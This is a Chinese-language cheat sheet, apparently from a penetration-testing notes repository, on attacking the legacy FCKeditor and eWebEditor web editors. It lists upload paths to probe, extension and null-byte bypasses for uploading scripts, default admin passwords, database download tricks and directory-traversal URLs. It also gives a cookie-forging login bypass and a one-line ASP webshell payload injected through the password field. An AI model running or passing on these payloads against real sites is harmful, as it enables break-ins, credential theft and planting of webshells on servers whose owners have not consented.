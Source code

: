 # web编辑器漏洞

&nbsp;

## FCK编辑器漏洞

### 【FCK编辑器路径查找】

* **查找方法**
  
  * 爬虫
  * 目录遍历
  * 目录扫描

> 注意：查找路径时应注意站中站和子站的编辑器路径，如果进入后台查找编辑器未能正常显示的，可以利用审查元素搜索editor等关键字、或者换低版本浏览器打开查看编辑器

* **查找目标**

  * 一个网站会有多个编辑器（扫描二级目录）
  * 关注old/目录，其中往往是版本较低的网站
  * 高位端口也可能有编辑器

### 【FCKeditor编辑器上传页面】

* **FCKeditor编辑器页 ：FCKeditor/_samples/default.html **

* **查看编辑器版本： FCKeditor/_whatsnew.html **

* **常见上传页面地址**
  
  * FCKeditor/editor/filemanager/browser/default/connectors/test.html
  * FCKeditor/editor/filemanager/upload/test.html
  * FCKeditor/editor/filemanager/connectors/test.html
  * FCKeditor/editor/filemanager/connectors/uploadtest.html
  * FCKeditor/_samples/default.html
  * _FCKeditor/_samples/default.html
  * FCKeditor/_samples/asp/sample01.asp_
  * _FCKeditor/_samples/asp/sample02.asp
  * FCKeditor/_samples/asp/sample03.asp_
  * _FCKeditor/_samples/asp/sample04.asp
  * fckeditor/editor/filemanager/connectors/test.html

* **asp常用上传页面地址**
  
  * fckeditor//editor/filemanager/browser/default/connectors/asp/connector.asp?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=/
  * fckeditor//editor/filemanager/browser/default/browser.html?type=Image&connector=connectors/asp/connector.asp
  * fckeditor//editor/filemanager/browser/default/browser.html?Type=Image&Connector=../../connectors/asp/connector.asp

* **aspx常用上传地址**

  * fckeditor//editor/filemanager/browser/default/connectors/aspx/connector.aspx?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=/
  * fckeditor//editor/filemanager/browser/default/browser.html?type=Image&connector=connectors/aspx/connector.aspx
  * fckeditor//editor/filemanager/browser/default/browser.html?Type=Image&Connector=../../connectors/aspx/connector.aspx

* **php常用上传地址**

  * fckeditor//editor/filemanager/browser/default/connectors/php/connector.php?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=/
  * fckeditor//editor/filemanager/browser/default/browser.html?type=Image&connector=connectors/php/connector.php
  * fckeditor//editor/filemanager/browser/default/browser.html?Type=Image&Connector=../../connectors/php/connector.php
  * fckeditor//editor/filemanager/connectors/php/connector.php?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=/
  * FCKeditor/editor/filemanager/browser/default/browser.html?Type=Image&Connector=http://www.site.com%2Ffckeditor%2Feditor%2Ffilemanager%2Fconnectors%2Fphp%2Fconnector.php (ver:2.6.3 测试通过)

### 【FCK编辑器漏洞利用】

* **Fckeditor 2.0 <= 2.2**
  
  * Fckeditor 2.0 <= 2.2允许上传asa、cer、php2、php4、inc、pwml、pht后缀的文件

* **FCKeditor v2.4.3**

  * FCKeditor v2.4.3中File类别默认拒绝上传类型：html|htm|php|php2|php3|php4|php5|phtml|pwml|inc|asp|aspx|ascx|jsp|cfm|cfc|pl|bat|exe|com|dll|vbs|js|reg|cgi|htaccess|asis|sh|shtml|shtm|phtm

* **FCKeditor <=2.4.2 For php**
  
  * 在处理PHP 上传的地方并未对Media 类型进行上传文件类型的控制，导致用户上传任意文件！将以下保存为html文件，修改action地址。

* **FCKeditor低于fck 2.5版本利用**

  * 看网站容器是否是IIS 6.0 ，利用解析漏洞，可以上传下 x.asa/cer/cdx 或者 x.jpg;.cer/x.jpg;asa
  * 利用目录解析漏洞
  * 创建一个x.asp 目录 上传图片马即可
  * 利用00截断漏洞，x.asp%00jpg

* **FCKeditor 文件上传“.”变“_”下划线的绕过**

  * 二次上传
  * a.asp%00.jpg 00截断利用
  * 使用特殊名称绕过，a.aspx.a;.a.aspx.jpg..jpg.aspx，xx.asp.;.jpg
  * 递归创建a.asp目录配合解析漏洞

* **fckeditor 2.6.3 php版本利用**

  * 转包在url中00截断

&nbsp;


## EWEBeditor编辑器漏洞

### 【eweb编辑器基础知识】

* **默认后台地址**
  
  * /ewebeditor/admin_login.asp 
  * 建议最好检测下admin_style.asp文件是否可以直接访问
  * 默认数据库路径：[PATH]/db/ewebeditor.mdb 
  * [PATH]/db/db.mdb -- 某些CMS里是这个数据库
  * 也可尝试 [PATH]/db/%23ewebeditor.mdb -- 某些管理员自作聪明的小伎俩，下载eweb的数据库（当有#号阻止下载时，可以将#号变为%23）

* **使用默认密码**

  * admin/admin888 或 admin/admin 进入后台，也可尝试 admin/123456 (有些管理员以及一些CMS，就是这么设置的) 

### 【eweb编辑器利用流程】

* **有后台**

  * 查找eweb编辑器路径，找eweb管理后台
  * 进入后台，修改上传文件类型，eweb后台登陆密码获取方式：弱口令，爆破
  * 上传脚本拿shell

* **没有后台**

  * 看是否能下载数据库，看数据库中有没有可以上传脚本的样式，构造上传
  * 利用eweb目录遍历漏洞，找到网站数据库，下载破解管理员密码进后台拿shell
  * 查找对用编辑器版本漏洞利用拿shell

### 【eweb编辑器漏洞利用】

* **有修改权限的利用**

  * 通过增加样式--设置-添加插入图片-getshell
  * 不能添加工具栏，但设定好了某样式中的文件类型
  * > 当没有权限修改样式表，可以在修改用户密码处插入木马（前提是config.asp文件中密码是明文显示，不是MD5加密）

* **无修改权限**

  * ewebeditor/admin_uploadfile.asp?id=14
  * 在id=14后面添加&dir=..
  * 再加 &dir=../..
  * &dir=http://www.****.com/../.. 看到整个网站文件了 

* **eWebEditor 5.2 列目录漏洞**

  * 过滤不严，造成遍历目录漏洞
  * http://www.cracer.com/ewebeditor/asp/browse.asp?style=standard650&dir=…././/.. 
  * 利用WebEditor session欺骗漏洞,进入后台

* **eWebEditor 2.7.0 注入漏洞**

  * 默认表名：eWebEditor_System默认列名：sys_UserName、sys_UserPass，然后利用nbsi进行猜解.


* **eWebEditor2.8.0最终版删除任意文件漏洞***

  * 此漏洞存在于Example\NewsSystem目录下的delete.asp文件中，这是ewebeditor的测试页面，无须登陆可以直接进入。


* **eWebEditor PHP/ASP…后台通杀漏洞（PHP ≥ 3.0~3.8与asp 2.8版也通用）**

  * 进入后台/eWebEditor/admin/login.php,随便输入一个用户和密码,会提示出错了.
  * 这时候你清空浏览器的url,然后输入 
　　javascript:alert(document.cookie="adminuser="+escape("admin")); 
　　　　　　javascript:alert(document.cookie="adminpass="+escape("admin")); 
　　　　　　javascript:alert(document.cookie="admindj="+escape("1"));
  * 而后三次回车,清空浏览器的URL,现在输入一些平常访问不到的文件如../ewebeditor/admin/default.php，就会直接进去。

* **eWebEditor 2.8 商业版插一句话木马**

  * 登陆后台，点击修改密码---新密码设置为 1":eval request("h")'
  * 设置成功后，访问asp/config.asp文件即可，一句话木马被写入到这个文件里面了.

